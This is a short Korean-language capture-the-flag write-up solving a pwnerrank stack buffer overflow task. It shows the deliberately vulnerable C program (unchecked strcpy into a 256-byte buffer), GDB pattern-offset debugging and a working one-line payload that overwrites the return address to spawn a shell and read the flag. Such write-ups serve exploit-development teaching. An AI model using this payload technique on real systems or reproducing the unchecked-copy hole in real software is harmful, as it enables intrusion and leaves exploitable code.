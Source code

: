 # [pwnerrank | Binary exploitation] Stack based Buffer Overflow - Return address @ 2017.01.05

[Stack based Buffer Overflow - Return address](https://www.pwnerrank.com/tasks/stack-based-buffer-overflow-return-address)

## Code

```c

#include < stdio.h >
#include < stdlib.h >
#include < string.h >

void pwned()
{
system("sh");
}

int main(int argc, char*argv[])
{
char buffer[256];

if(argc < 2) {
 perror("Usage: ./pwnme twitt\n");
return 1;
}

strcpy(buffer,argv[1]);
printf("%s", buffer);

return 0;
}
```

## Analysis

#### #1

Stack 구성이   `buffer[256] + SFP + saved eip` 로 될 것으로 예상하여 공격하였으나 잘 안 됨.

```bash
$ ./pwnme `python -c 'print "A"*256 + "B"*4 + "\xec\x84\x04\x08"'`
 _____                           _____             _
|  __ \                         |  __ \           | |
| |__) |_      ___ __   ___ _ __| |__) |__ _ _ __ | | __
|  ___/\ \ /\ / / '_ \ / _ \ '__|  _  // _` | '_ \| |/ /
| |     \ V  V /| | | |  __/ |  | | \ \ (_| | | | |   <
|_|      \_/\_/ |_| |_|\___|_|  |_|  \_\__,_|_| |_|_|\_\
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBpwn5@binary-challenges-pwnerrank-com:~$ cat .flag
cat: .flag: Permission denied
```

#### #2

GDB 로 debugging 을 해보니 `256+4` 보다 몇 개 뒤에 `LR` 이 잡힘.

[Svenito/exploit-pattern: generate and search pattern string for exploit development](https://github.com/Svenito/exploit-pattern)
로 crashed lr 위치 확인

```bash
# Create pattern
$ ./pattern.py 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

# Debug
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /home/pwn5/pwnme Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
 _____                           _____             _
|  __ \                         |  __ \           | |
| |__) |_      ___ __   ___ _ __| |__) |__ _ _ __ | | __
|  ___/\ \ /\ / / '_ \ / _ \ '__|  _  // _` | '_ \| |/ /
| |     \ V  V /| | | |  __/ |  | | \ \ (_| | | | |   <
|_|      \_/\_/ |_| |_|\___|_|  |_|  \_\__,_|_| |_|_|\_\

Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()

# Check
$ ./pattern.py 0x6a413969
Pattern 0x6a413969 first occurrence at position 268 in pattern.
```

`256+4` 가 아니라 `268` 뒤에 LR 이 잡힘.  왜지 ?

## Exploit

```bash
$ ./pwnme `python -c 'print "A"*268 + "\xec\x84\x04\x08"\'`
 _____                           _____             _
|  __ \                         |  __ \           | |
| |__) |_      ___ __   ___ _ __| |__) |__ _ _ __ | | __
|  ___/\ \ /\ / / '_ \ / _ \ '__|  _  // _` | '_ \| |/ /
| |     \ V  V /| | | |  __/ |  | | \ \ (_| | | | |   <
|_|      \_/\_/ |_| |_|\___|_|  |_|  \_\__,_|_| |_|_|\_\
$ cat .flag
pwnerrank{this_is_not_the_real_flag}
```


